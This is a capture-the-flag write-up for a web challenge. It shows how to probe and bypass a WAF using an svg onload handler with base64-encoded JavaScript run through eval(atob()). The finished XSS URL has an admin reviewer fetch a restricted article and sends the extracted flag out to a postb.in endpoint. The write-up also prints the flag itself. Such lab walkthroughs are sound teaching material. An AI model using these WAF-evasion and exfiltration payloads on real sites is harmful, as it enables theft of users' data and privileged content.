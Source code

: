 # I Have Caught You Now

## Challenge
* Category: Web Security
* Points: 250

XSS is a thing of the past! Read all about it here: http://challenge.acictf.com:55351

### Hints
* See what happens if you send XSS to the search
* This WAF might make you less secure
* Use parameter names to your advantage


## Solution

### Tools
* [postb.in](https://postb.in/)
* Chrome or Firefox Browser Dev Tools
* https://www.urlencoder.org/
* https://www.base64encode.org/


Browse the website and take note of the different pages and forms. Lets list the areas of interest on the Website
* Our flag is at http://challenge.acictf.com:55351/article/1, but we do not have access to the page containing the flag
* Each page contains a `Search` box in the upper right corner. This is where we will fuzz the WAF (Web Application Firewall)
* There is a page where we submit articles to the admin for review. It is at http://challenge.acictf.com:55351/submit.

Since we do not have an account that can view the obfuscated page containing the flag, we will need to use the submission box in the third bullet to render the page and return to us the flag.

#### Approach
* Enumerate Details about the WAF
* Craft a Workable Payload that Bypasses the WAF
* Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

#### Enumerate Details about the WAF

The following sites have good examples on enumerating WAFs
* https://www.secjuice.com/bypassing-web-application-firewalls-for-cross-site-scripting/
* https://owasp.org/www-community/xss-filter-evasion-cheatsheet

Start by putting some familiar javascript into the Search Box `<script>window.alert('hello world')</script>` and view the WAF's output. We get the response `This Page has been blocked by SecureWAF`. Inspect the page and notice the `search` is in a HTML `<code></code>` block. Since our `<script>...</script>` tags were not included in the code block, we will probably need to obfuscate. Also take a look at the URL `/search?search=%3Cscript%3Ewindow.alert%28%27hello+world%27%29%3C%2Fscript%3E`. Notice the space in `hello world` was replaced with `+` and all of the `%HEX` characters. This is URL Encoding.

Put `<x>` in the Search Box. Notice the WAF did not trigger. The WAF is triggering on script tags and javascript. We will need to encode our payload. However, in order for our payload to execute, we will need to decode it. We also cannot have spaces in the non-base64 parts of our URL. A quick google search for `XSS without spaces` leads us to [this](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) page, which suggests using the `<svg>` tag to run javascript without spaces or slashes.   

Since we will be encoding the payload ourself, we will copy-paste the full URL into the browser rather than paste portions of it into the Search box.

Lets build the testing URL.
Our base url: http://challenge.acictf.com:55351/search?search=1&. We will put `1&` after the search= parameter. The `&` symbol separates parameters in a URL. So we are going to give it a random character `1` and then the next parameter is our payload.

Start url-encoding our payload. Make sure you read the whole response to the [stackexchange](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) article referenced above. We will need to change the `•` in the payload to its proper urlencoded character (hex 0c). Put `<svg•onload=` in [this](https://www.urlencoder.org/) site and hit encode. Change the dot's characters to `0c`. So now we have `%3Csvg%0Conload%3D`.

Next. Lets encode `window.alert('Hello World')` in base64. It becomes `d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp`. You can use this website to do the base64 encoding https://www.base64encode.org/.

Now. we need to wrap the above base64 payload in some javascript that will decode the base64. You can play with javascripts `atob` function here https://www.w3schools.com/jsref/met_win_atob.asp

Our wrapped base64 atob function looks like this:
```
"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"
```

Finally, we will need to close our original `<svg` tag with an encoded >, which is `%3E`.

Now put it all together

http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E

Drop that URL into the browser. Hrmm, notice it did not trigger the WAF. Try adding `<script>` to the end to see if we trigger the WAF. This part took me a bit to figure out. We need to add `=<script>` to the end of the URL to trigger the WAF.

Now lets try the whole URL and see if we can run some javascript. Paste the following into the URL and see what happens.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E=<script>
```

![alert](images/alert_works.png)

Huzzah! Check out the HTML `<code>` block below. It contains our scipt.

![alert htmml](images/alert_html.png)


#### Craft a Workable Payload that Bypasses the WAF

Now that we tested the WAF above. Lets research some method in javascript to render another webpage. This [site](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/) details four methods for making calls to websites in javascript. We will start by modifying the ajax `XMLHttpRequest()` method.

Modify our base code block to use the URL for the website containing the flag.
```
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
  console.log(Http.responseText)
}
```

Paste the above code into https://www.base64encode.org/ and click encode. Our resulting payload is
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9
```

Now piece together the entire URL and drop it into the browser.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9+'`))"%3E=<script>
```

In your browser's Dev Tools, open the `console` and inspect the output. Below is a screenshot of a portion of the output.

![console](images/console_output.png)

We successfully grabbed the target website and printed its contents to our console. The problem, however, is we do not have an account to view the obfuscated content. So we will need to use their URL submission form to grab the target site for us and return its contents to our postb.in site.

#### Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

Before we modify our payload, we need to build a regex that can extract the flag from the website. I tried to convert the entire site to a string and ship it back to my postb.in endpoint, but was unable to do it. So we will grab just the flag and ship it back.

I am more familiar with pcre. I needed to play around with javascript regex to get the format just right. We will use javascript's `match()` function. I went [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and tested a few regex's. We know the flag format is `ACI{something}`. So our regex is `/ACI{.*}/g`

![regex](images/build_regex.png)

Go to https://postb.in/ and Create a bin.

Modify our payload to include the flag regex and the callback to our postb.in endpoint.
```
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
    flag = Http.responseText.match(/ACI{.*}/g);
    window.location = 'https://postb.in/1589226090750-2006637025624?flag=' + flag;
}
```

Copy your new payload into https://www.base64encode.org/ and get the new encoded payload. My payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0=
```

**IMPORTANT NOTE**
My payload contains characters that will error out in the `<svg>` script. I need to replace `=` with its URL encoded character `%3D`. Check your payload for any `+`, `/`, and `=` and switch them out for their URL encoded hex. You can get the encoded characters at https://www.urlencoder.org/

So my fixed payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D
```

Now lets build the entire URL.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D+'`))"%3E=<script>
```

Paste this URL into the `Submission` box at the http://challenge.acictf.com:55351/submit endpoint and click `Send Submission`. Go check your postb.in

![flag](images/flag.png)

There it is. The website used its permissions to view the obfuscated page and send us the flag.

**ACI{01cabd1a0620f802c5227970d37}**
